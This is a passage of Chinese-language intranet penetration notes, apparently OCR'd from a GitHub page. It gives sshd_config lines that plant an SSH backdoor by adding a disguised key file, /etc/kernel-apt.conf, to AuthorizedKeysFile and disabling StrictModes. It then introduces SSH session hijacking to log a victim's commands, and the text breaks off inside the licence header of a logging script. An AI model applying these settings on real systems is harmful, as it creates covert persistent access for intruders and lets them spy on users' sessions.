 /etc/ssh/sshd_config:

RSAAuthentication yes

PubkeyAuthentication yes

StrictModes no

AuthorizedKeysFile .ssh/authorized_keys /etc/kernel-apt.conf(后门公钥文件)

将自己生成的公钥对中公钥放到后门配置文件/etc/kernel-apt.conf中即可SSH连接

默认StrictModes yes时实现方法:

1.后门配置文件中后门公钥文件需存放在将要登录的用户(如目标机器root用户)主目录下，如AuthorizedKeysFile
.ssh/authorized_keys /root/kernel-apt.conf

步骤2和3非必须:

2.需要在将要登录的用户主目录下生成.rhosts文件，且内容为ssh客户端的ip，如13.13.13.13;

3.正常公钥.ssh/authorized_keys不受.rhosts文件的影响，可正常连接

**SSH会话劫持(记录命令及其回显)**

静默输入不会被记录，vim编辑等亦不记录

利用条件:

1.仅使用公私密钥登录，禁止密码登录

实现:

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/d150ca96bb963b7d44c583779e0f3641.png)

\#!/bin/sh

\#

\# log-session

\# John Simpson \<jms1\@jms1.net\> 2008-08-06

\#

\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#

\#

\# Copyright (C) 2008 John Simpson.

\#

\# This program is free software; you can redistribute it and/or modify

\# it under the terms of the GNU General Public License, version 3, as

\# published by the Free Software Foundation.

\#

\# This program is distributed in the hope that it will be useful,

